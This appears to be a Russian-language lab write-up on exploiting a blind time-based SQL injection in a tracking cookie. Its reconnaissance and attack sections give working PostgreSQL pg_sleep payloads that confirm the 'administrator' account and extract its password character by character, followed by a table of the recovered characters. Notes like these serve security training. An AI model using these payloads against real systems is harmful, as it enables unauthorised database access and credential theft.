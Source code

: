 Лабораторная работа содержит уязвимость, связанную со слепым внедрением SQL. Приложение использует файл cookie отслеживания для аналитики и выполняет запрос SQL, содержащий значение отправленного файла cookie.

## Дано

База данных содержит таблицу с именем `users`, со столбцами, называемыми `username` и `password`.

## Задача

зайти под administartor

# Разведка

 - тригеров на ' не обнаружено
 - пробуем задержку 
	 `'; IF (1=1) WAITFOR DELAY '0:0:10'--` - не сработало
	 `; SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END--` - сработала бд PostgreSQL


# Атака 

`; SELECT CASE WHEN (1=1) THEN pg_sleep(2) ELSE pg_sleep(0) END--` 
- Формируем
```
';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```
Существует такой ник

PostgreSQL - SUBSTRING('foobar', 4, 2)
```
';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password, 1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

clrutcz2vkb0vdi6qjjr

| 1   | c   |
| --- | --- |
| 2   | l   |
| 3   | r   |
| 4   | u   |
| 5   | t   |
| 6   | c   |
| 7   | z   |
| 8   | 2   |
| 9   | v   |
| 10  | k   |
| 11  | b   |
| 12  | 0   |
| 13  | v   |
| 14  | d   |
| 15  | i   |
| 16  | 6   |
| 17  | q   |
| 18  | j   |
| 19  | j   |
| 20  | r   |
